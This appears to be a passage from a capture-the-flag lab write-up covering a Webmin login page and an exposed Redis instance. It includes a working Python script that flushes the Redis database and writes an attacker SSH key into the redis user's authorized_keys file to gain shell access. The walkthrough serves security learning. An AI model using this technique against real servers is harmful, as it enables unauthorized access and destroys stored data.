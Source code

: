 ![Image]({attach}screenshot-from-2019-12-01-13-59-10.png){: .image-process-article-image}

Moving on to port 10000, we are presented with a redirect to an SSL site.

![Image]({attach}screenshot-from-2019-12-01-13-59-58.png){: .image-process-article-image}

To make this work, we tweak our `/etc/hosts` file a bit and move to the site mentioned above. There we are presented with a Webmin login panel.

![Image]({attach}screenshot-from-2019-12-01-14-00-26.png){: .image-process-article-image}

A few tries with default username/password combinations did not yield any success, so let's move on. We don't want to bruteforce the credentials here out of politeness to the other people hacking on it. :) About Redis and port 6379, there is a general rule of thumb for production usage: **NEVER PUT THIS THING ON THE OPEN INTERNET.** If you don't believe me, read the same thing in the [Redis docs](https://redis.io/topics/security) - worded a bit more elegantly:

> Redis is designed to be accessed by trusted clients inside trusted environments. This means that usually it is not a good idea to expose the Redis instance directly to the internet or, in general, to an environment where untrusted clients can directly access the Redis TCP port or UNIX socket.

In my attack I made some assumptions, such as that the user the DB is running under is called `redis`, that its home directory is `/var/lib/redis/` and that the config options used in the attack are available. All of these should be true by default. So I generated a new SSH keypair and hacked up a little Python script:

```python
import redis


print("[+] Reading key")
with open("attacker.key", "r") as keyfile:
    key = "\n\n" + keyfile.read().strip() + "\n\n"

print("[+] Connecting to Redis")
r = redis.StrictRedis(
    host='10.10.10.160',
    port=6379,
)

print("[+] Flushing DB")
r.flushdb()

print("[+] Setting attacker SSH key")
r.set("itdonottouch", key)

print("[+] Setting configuration keys")
r.config_set("dir", "/var/lib/redis/.ssh/")
r.config_set("dbfilename", "authorized_keys")

print("[+] Saving changes to Redis disk")
r.save()

print("[+] Exploit finished - try ssh with redis@10.10.10.160")
```
